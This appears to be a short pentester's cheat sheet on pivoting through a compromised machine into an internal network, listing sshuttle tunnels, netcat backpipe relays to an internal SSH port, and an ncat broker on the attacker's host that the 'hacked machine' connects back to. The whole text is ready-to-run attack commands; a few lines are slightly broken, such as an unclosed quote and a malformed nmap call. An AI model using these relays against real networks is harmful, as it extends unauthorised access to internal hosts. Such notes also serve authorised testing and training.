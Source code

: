 - sshuttle
	- `sshuttle -r username@sshserver 0.0.0.0/0 -vv`
	- `sshuttle -r username@sshserver 0/0 -vv`
	- `sshuttle --dns -vvr username@sshserver 0/0`
- Using netcat to foward internal traffic
	- On remote host - setup listener by creating backpipe
		- `mkfifo pipe`
		- `mknod pivot p`
	- Setup listener on pivot machine to forward an internal machine's port
		- `nc -l -p 9001 0<pivot | nc <internal-rhost> <i-rhost-port> 1>pivot`
		- `nc -l -p 9001 0<pivot | nc 172.16.50.222 22 1>pivot`
	- check that you can use see the interface open on the external machine
		- `nmap -p 22 9001 rhost OR nmap -p 22 172.1.1.1`
- Ncat port fowwarder (with listener on attacking lhost machine instead of external hacked machine)
	- On attacker machine
		- `ncat -lv --broker -m2 <port-number>`
		- `ncat -lv --broker -m2 8900`
	- On pivot machine
		- `ncat -v <attack-lhost-ip> <attacker-lport> -c "nc -v <internal-rhost-to-pivot-to> <port-on-final-rhost>`
		- `ncat -v 10.13.37.10 8900 -c "nc -v 172.16.50.222 80"`
	- View traffic
		- `curl http://localhost:8900`
		- `ssh user@localhost -p 8900`